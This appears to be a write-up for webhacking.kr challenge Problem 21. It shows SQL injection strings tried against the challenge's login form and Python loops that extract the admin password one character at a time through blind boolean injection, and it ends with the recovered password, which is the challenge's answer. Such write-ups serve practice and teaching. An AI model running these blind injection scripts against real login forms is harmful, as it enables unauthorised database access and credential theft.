

Problem21
===========   

This problem is in webhacking.kr.   
URL: <https://webhacking.kr/challenge/bonus-1/index.php/>   
 
If you enter the URL, you can see the below photo.   
      
 


### First, Admin Login  

   
    
The result of "id: admin, pw: admin" is <strong>login fail</strong>     
   
### Second, SQL Injection       
    
   
    
I tried to SQL Injection. <strong>admin' or '1'='1</strong>    
<strong>Result: Wrong password </strong>   
 
While I tried to "<strong>admin' or '1'='0</strong>". 
<strong>Result: Wrong password </strong>

You can see that the values you entered this time are different from before.   
Through this, I knew that <strong>ID is 'admin'</strong>.   

### Third, Blind SQL Injection (ID Length)        
    
   
     
    
         
```   
admin' and if(length(id)like(5),1,0) or '1'='0 (Result: Wrong Password)   
admin' and if(length(id)like(6),1,0) or '1'='0 (Result: login fail)    
```    
    
This test certainly shows that the length of ID is 5.    
In addition, we can access on the password througth the result.   
    
#### True: (Result: Wrong Password)       
#### False: (Result: login fail)       
    
### Fourth, Blind SQL Injection (PW Length, PW)    
    
#### Password Length Payload    
     
```   
for i in range(50):
    url = "https://webhacking.kr/challenge/bonus-1/index.php?id=admin\' and if(length(pw)like({}),1,0) or \'1'=\'0&pw=1".format(i)
    res = requests.get(url, headers=headers, cookies=cookies)

    if res.text.find('wrong password') > 0: 
        str_len = i
```    
     
#### Password Payload   
    
```   
for i in range(1, str_len + 1):
    for j in range(48,128):
        url = "https://webhacking.kr/challenge/bonus-1/index.php?id=admin\' and if(ord(substr(pw,{},1))like({}),1,0) or \'1\'=\'0&pw=1".format(i,j)
        res = requests.get(url, headers=headers, cookies=cookies) 
        if res.text.find('wrong password') > 0:
            password += chr(j)
            break     
```   
     
#### Result    
     
   
     
<strong>Password Length: 36</strong>    
<strong>Password: there_is_no_rest_for_the_white_angel</strong>     
      
   
